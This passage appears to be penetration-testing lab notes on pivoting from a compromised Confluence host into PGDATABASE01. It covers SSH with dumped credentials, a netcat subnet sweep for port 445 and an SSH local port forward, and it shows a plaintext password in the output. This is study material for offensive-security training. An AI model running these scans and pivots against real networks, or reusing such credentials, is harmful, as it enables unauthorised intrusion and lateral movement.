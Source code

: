- SSH into PGDATABASE01 using creds discovered (assuming previously from a dump)
```bash
# In CONFLUENCE01
ssh database_admin@10.4.233.215
```

- Enumerate
```bash
# In PGDATABASE01 - Look for network connections
ip addr
	...
	4: ens192: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
	    link/ether 00:50:56:bf:90:91 brd ff:ff:ff:ff:ff:ff
	    inet 10.4.233.215/24 brd 10.4.233.255 scope global ens192
	       valid_lft forever preferred_lft forever
	5: ens224: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
	    link/ether 00:50:56:bf:0b:b8 brd ff:ff:ff:ff:ff:ff
	    inet 172.16.233.254/24 brd 172.16.233.255 scope global ens224
	       valid_lft forever preferred_lft forever

# Enum for endpoints and open ports on 172.16.233.x subnet
	# Again, going to target specific ports
for i in $(seq 1 254); do nc -zv -w 1 172.16.233.$i 445 2>&1 | grep succeeded; done
	Connection to 172.16.233.217 445 port [tcp/microsoft-ds] succeeded!
```

- Setup SSH Port Forward from w/in Confluence
```bash
# Kill existing SSH connection to PGDATABASE01
database_admin@pgdatabase01:~$ ps aux | grep ssh                                                                                                        
	root         880  0.0  0.3  12172  7272 ?        Ss   16:22   0:00 sshd: /usr/sbin/sshd -D [listener] 0 of 10-100 startups    
	root        8077  0.0  0.4  13920  8964 ?        Ss   18:11   0:00 sshd: database_admin [priv]
	databas+    8239  0.0  0.2  14052  5992 ?        S    18:11   0:00 sshd: database_admin@pts/0
	root       10210  0.0  0.4  13916  9056 ?        Ss   18:37   0:00 sshd: database_admin [priv]
	databas+   10305  0.0  0.2  14052  5276 ?        S    18:37   0:00 sshd: database_admin@pts/1
	databas+   10322  0.0  0.0   6300   724 pts/1    S+   18:37   0:00 grep --color=auto ssh
	
database_admin@pgdatabase01:~$ kill -9 10305
	Connection to 10.4.233.215 closed by remote host.
	Connection to 10.4.233.215 closed.


# Setup Local Port Forwarder
ssh -N -L 0.0.0.0:4242:172.16.233.217:4242 database_admin@10.4.233.215
	Could not create directory '/home/confluence/.ssh'.
	The authenticity of host '10.4.233.215 (10.4.233.215)' can't be established.
	ECDSA key fingerprint is SHA256:GMUxFQSTWYtQRwUc9UvG2+8toeDPtRv3sjPyMfmrOH4.
	Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
	yes
	Failed to add the host to the list of known hosts (/home/confluence/.ssh/known_hosts).
	database_admin@10.4.233.215's password: sqlpass123

```
